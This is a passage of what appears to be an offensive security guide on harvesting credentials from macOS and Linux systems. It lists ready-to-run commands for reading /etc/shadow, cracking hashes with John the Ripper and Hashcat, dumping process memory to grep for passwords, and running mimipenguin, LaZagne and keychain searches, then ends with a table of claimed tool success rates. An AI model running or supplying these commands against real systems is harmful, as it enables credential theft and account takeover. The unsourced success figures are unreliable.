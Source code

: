 #### 3. System Artifact Collection
```bash
# OSXCollector comprehensive collection
sudo python osxcollector.py

# Manual artifact collection
sudo find /Users -name "*.keychain*" -o -name "*.plist" | grep -i password
```

### Linux Alternative Approaches

#### 1. Traditional Unix Methods
```bash
# Shadow file access (requires root)
sudo cat /etc/shadow

# John the Ripper for hash cracking
john --wordlist=rockyou.txt /etc/shadow

# Hashcat for GPU acceleration
hashcat -m 1800 -a 0 hashes.txt wordlist.txt
```

#### 2. Memory-Based Extraction
```bash
# mimipenguin execution
sudo python mimipenguin.py

# Manual memory dumping
sudo gcore $(pgrep target_process)
strings core.* | grep -i password
```

#### 3. Configuration File Harvesting
```bash
# LaZagne execution
python laZagne.py all

# Manual configuration search
find /home -name "*.conf" -o -name "*.cfg" | xargs grep -i password
```

## Tool Effectiveness Analysis

### Success Rate by Scenario

| Scenario | Windows (pypykatz) | macOS (Keychain-Dump) | Linux (mimipenguin) |
|----------|-------------------|----------------------|-------------------|
| **Domain Environment** | 95% | N/A | 70% (if AD-joined) |
| **Local User Accounts** | 90% | 85% | 80% |
| **Application Passwords** | 70% | 90% | 75% |
| **Network Credentials** | 95% | 80% | 60% |
| **Cached Credentials** | 90% | 85% | 40% |

